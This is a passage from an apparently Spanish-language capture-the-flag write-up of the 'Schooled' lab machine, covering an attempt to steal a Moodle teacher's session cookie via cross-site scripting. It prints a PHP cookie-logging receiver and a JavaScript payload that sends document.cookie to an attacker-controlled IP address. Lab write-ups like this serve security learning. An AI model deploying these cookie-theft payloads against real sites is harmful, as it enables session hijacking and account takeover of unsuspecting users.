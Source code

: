 ![imagen4](/assets/images/Schooled/schooled4.png)

Vemos que nuestrao archivo satisfactoriamente está siendo llamada al momento que el profesor lee el mensaje, podemos intentar robar su cookie con el siguiente script.

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['10.10.14.22']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
```js
new Image().src='http://10.10.14.22:1234/index.php?c='+document.cookie
```
Vemos que no estamos obteniendo la cookie, solo nos muestra la nuestra. Podremos seguir buscando por alguna vulnerabilidad. Nos enrolamos en al curso de matemáticas y vemos que tenemos un anuncion donde nos indica que nos registremos a MoodleNet.

![imagen5](/assets/images/Schooled/schooled5.png)
